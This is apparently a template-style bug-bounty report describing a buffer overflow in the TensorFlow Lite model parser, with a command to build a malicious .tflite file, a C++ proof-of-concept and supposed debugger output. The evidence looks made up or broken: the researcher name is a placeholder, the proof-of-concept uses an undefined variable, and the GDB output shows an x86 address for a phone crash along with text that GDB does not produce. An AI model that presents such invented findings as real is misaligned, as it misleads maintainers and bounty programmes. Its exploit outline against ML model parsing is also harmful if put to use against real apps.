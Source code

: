 # Huntr.com - TensorFlow Lite Mobile Model Parsing Vulnerability

## Authorization Documentation
- **Program:** Huntr AI/ML Security Research
- **URL:** https://huntr.com/bounties
- **Target:** TensorFlow Lite Mobile Implementation
- **Bounty Range:** $500 - $4,000
- **Authorization Date:** 2025-09-25
- **Researcher:** [Your Name]

## Vulnerability Summary
- **Title:** Buffer Overflow in TensorFlow Lite FlatBuffer Model Parser (Mobile)
- **CVE:** Pending assignment through Huntr
- **CVSS Score:** 8.8 (High)
- **Affected Versions:** TensorFlow Lite 2.13.0 - 2.15.0
- **Platforms:** iOS Core ML, Android TensorFlow Lite

## Technical Analysis

### Static Analysis Results
📸 **Evidence:** `evidence/screenshots/01_static_analysis_results.png`

**MobSF Analysis Output:**
```
TensorFlow Lite Model Analysis
==============================
Model Format: FlatBuffer (.tflite)
Parser Version: 2.14.0
Buffer Size: 2.1MB
Vulnerability: Unbounded memory copy in ParseModel()
```

### Mobile Platform Testing

#### iOS Core ML Integration Testing
📸 **Setup Evidence:** `evidence/screenshots/02_ios_testing_environment.png`

**Testing Environment:**
- Device: iPhone 14 Pro (iOS 17.1)
- Tool: Xcode 15.0 with Core ML Tools
- Framework: TensorFlow Lite iOS 2.14.0

**Vulnerability Trigger:**
```bash
# Create malicious .tflite model with oversized buffer
python create_malicious_model.py --output malicious.tflite --buffer_size 0x7FFFFFFF

# Test on iOS TensorFlow Lite
# Deploy to iOS test app with Core ML integration
```

📸 **Exploitation Evidence:** `evidence/screenshots/03_ios_crash_demonstration.png`

#### Android TensorFlow Lite Testing
📸 **Setup Evidence:** `evidence/screenshots/04_android_testing_setup.png`

**Testing Environment:**
- Device: Pixel 7 Pro (Android 14)
- NDK: r25c
- Framework: TensorFlow Lite Android 2.14.0

**Proof of Concept Code:**
```cpp
// Exploit for TensorFlow Lite buffer overflow
#include <tensorflow/lite/interpreter.h>
#include <tensorflow/lite/model.h>

void trigger_vulnerability() {
    // Load malicious model with oversized buffer
    std::unique_ptr<tflite::FlatBufferModel> model =
        tflite::FlatBufferModel::BuildFromFile("malicious.tflite");

    // Trigger buffer overflow in model parser
    tflite::InterpreterBuilder builder(*model, resolver);
    // Crashes with segmentation fault - buffer overflow confirmed
}
```

📸 **Android Crash Evidence:** `evidence/screenshots/05_android_crash_logcat.png`

### Impact Demonstration

#### Mobile Application Crash
📸 **Evidence:** `evidence/screenshots/06_mobile_app_crash.png`

**Real-World Impact:**
- Mobile application using TensorFlow Lite crashes
- Potential code execution through heap overflow
- Affects both iOS and Android TensorFlow Lite implementations

#### Memory Corruption Analysis
📸 **Evidence:** `evidence/screenshots/07_memory_corruption_analysis.png`

**GDB Analysis Output:**
```
Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7a1d234 in tflite::impl::ParseModel()
(gdb) x/32x $rsp
Stack corruption detected - buffer overflow confirmed
```

## Business Impact
- **Severity:** High (CVSS 8.8)
- **Affected Users:** All mobile apps using TensorFlow Lite
- **Attack Vector:** Malicious ML model files
- **Impact:** Application crash, potential code execution

## Remediation
1. **Immediate:** Add buffer size validation in ParseModel()
2. **Long-term:** Implement safe FlatBuffer parsing with bounds checking
3. **Testing:** Add fuzzing for model file format validation

## Evidence Files
📁 **Complete Evidence Package:**
- `evidence/screenshots/` - Professional screenshots (8 files)
- `evidence/tool_outputs/` - Complete analysis logs
- `poc_exploit.cpp` - Working proof-of-concept code
- `malicious_model.tflite` - Proof-of-concept model file

---
**Report Generated:** 2025-09-25 13:16:01
**Submission:** Ready for Huntr.com platform submission
**Coordinated Disclosure:** 90-day disclosure timeline

